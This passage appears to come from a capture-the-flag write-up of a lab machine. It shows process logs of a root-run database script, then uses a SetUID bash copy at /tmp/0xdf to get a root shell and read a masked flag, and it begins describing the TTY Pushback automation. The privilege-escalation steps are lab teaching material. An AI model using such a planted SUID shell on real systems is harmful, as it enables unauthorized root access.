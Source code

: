 The next time the bot cycles and tries to run, it calls `manage-db` as
root, and then drops to UID 113 (postgres). But then it doesn't call
`psql`, rather just doing some `bash` calls and then returning to root:



    2023/11/08 11:10:57 CMD: UID=0     PID=67907  | systemctl status postgresql 
    2023/11/08 11:10:57 CMD: UID=0     PID=67908  | /bin/bash -i ./manage-db 
    2023/11/08 11:10:57 CMD: UID=0     PID=67909  | /bin/bash -i ./manage-db 
    2023/11/08 11:10:57 CMD: UID=113   PID=67910  | -bash 
    2023/11/08 11:10:57 CMD: UID=113   PID=67911  | 
    2023/11/08 11:10:57 CMD: UID=113   PID=67912  | -bash 
    2023/11/08 11:10:57 CMD: UID=113   PID=67914  | -bash 
    2023/11/08 11:10:57 CMD: UID=113   PID=67915  | 
    2023/11/08 11:10:57 CMD: UID=0     PID=67916  | -bash 
    2023/11/08 11:11:02 CMD: UID=0     PID=67919  | /usr/bin/perl /usr/bin/psql 



`/tmp/0xdf` is there with the SetUID/SetGID bits on (`s` instead of `x`
for owner and group):



    wesley@download:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Nov  8 11:10 /tmp/0xdf



It provides a shell with root effective IDs and I can read the flag:



    wesley@download:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(wesley) gid=1000(wesley) euid=0(root) egid=0(root) groups=0(root),1000(wesley)
    0xdf-5.0# cat /root/root.txt
    c4e14025************************



## Beyond Root

### Deeper Into TTY Pushback

#### management.py

As root, I can look at the automations that allow for the TTY Pushback
attack. `management.py` is set to run as a service:



    import paramiko
    import time
    import os

    while True:
        print("Deleting files")

        for file_name in os.listdir("/var/lib/postgresql/"):
            if file_name != "12":
                os.remove(os.path.join("/var/lib/postgresql/", file_name))
